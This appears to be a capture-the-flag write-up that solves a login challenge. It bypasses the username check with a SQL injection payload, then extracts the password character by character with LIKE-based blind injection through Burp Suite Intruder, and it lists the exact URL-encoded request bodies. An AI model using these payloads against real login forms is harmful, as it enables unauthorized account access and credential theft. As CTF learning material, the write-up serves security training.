 ### hints
* Credentials are secret, flags are secret. Coincidence?

### solution

1. navigate to a login page
2. bypass username with `' or 1 = 1 #`
3. you should see **Invalid Password** error message
   * :success:
4. now we try to brute force the password one character at a time
5. open burp suite and make sure intercept is **on**
6. on the browser, enter the following value in *Username* field:
   * `' or password LIKE 'a%'`
   * doesn't have to be `a`... can be any placeholder character
7. go back to burp where the request will be waiting for you
8. send the request to *Intruder*
9. in *Intruder* tab...
   * *Target* should be set correctly
   * in *Positions*, clear all markers and add new ones around `a` mentioned above
      * i.e. `username=%27+or+password+LIKE+%27§a§%25%27+%23&password=`
   * in *Payloads*...
      * Payload set: `1`
      * Payload type: `Brute forcer`
      * Character set: `abcdefghijklmnopqrstuvwxyz0123456789`
      * Min length: `1`
      * Max length: `1`
10. **Start attack**
11. check which character is not like the others. in my case, it was **r**
12. repeat steps 9 - 11 for each character in the password until you see the flag show up in the response
    * `username=%27+or+password+LIKE+%27r§a§%25%27+%23&password=r`
    * `username=%27+or+password+LIKE+%27ro§a§%25%27+%23&password=ro`
    * ...
    * `username=%27+or+password+LIKE+%27robbyn§a§%25%27+%23&password=robbyn`
    * eureka!
